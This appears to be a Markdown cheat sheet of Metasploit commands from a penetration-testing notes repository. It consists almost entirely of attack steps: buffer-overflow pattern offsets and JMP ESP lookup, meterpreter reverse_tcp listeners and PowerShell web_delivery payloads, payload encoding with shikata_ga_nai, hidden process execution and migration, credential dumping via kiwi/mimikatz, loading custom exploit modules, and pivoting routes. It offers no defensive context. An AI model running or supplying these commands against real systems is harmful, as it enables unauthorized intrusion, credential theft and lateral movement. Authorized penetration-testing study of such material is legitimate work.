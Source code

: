 ###### Testing buffer size
msf-pattern_create -l 800  
msf-pattern_create -l 2000 -s ABCDEF,def,1234(custom chars set,it can remove some specific bad chars)  
msf-pattern_offset -l 800 -q 42306142

###### To find the opcode equivalent of JMP ESP
```
msf-nasm_shell  
nasm > jmp esp  
00000000  FFE4              jmp esp  
```
###### Migrate shell into notepad.exe process
```
set AutoRunScript post/windows/manage/migrate #stable the shell
```
###### Metasploit Post-exploit commands:
```
bg
show sessions
sessions id
quit # 退出会话
execute -H -i -f cmd.exe # 创建新进程cmd.exe，-H不可见，-i交互
```
###### Settingg up local listener
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set LHOST ip
set LPORT port
exploit
```
###### Setting up local powershell reverse tcp listener
```
use exploit/multi/script/web_delivery
set target 2 #important
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.199.128
set lport 4444
run
```
###### multi/handler payload encode
```
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
```
###### Migrating Processes
Note that we are only able to migrate into a process executing at the same privilege and integrity level or lower than that of our current process.
```
ps
migrate pid
```
###### Meterpreter command to use powershell
```
meterpreter > :
load powershell
help powershell
powershell_execute "$PSVersionTable.PSVersion"
```
###### Meterpreter command to use mimikatz
```
meterpreter > :
load kiwi
getsystem
creds_msv
```
##### Add own rb exploit
exploit/multi/http/jenkins_nodejs_rce
```
under /home/kali/.msf4
create ../exploits/multi/http folder
put rb in it
msfconsole
search name
```
##### Pivioting 
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/f9f085e8-a7bc-4ab5-acd2-de3c9c5a51fa)
```
route add 172.16.5.0/24 12
route print
```
Clear Routes: 
```
route flush
```
AutoRoutes Post-exploit  
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/afe94d70-5d3a-402e-8054-f373089d311d)
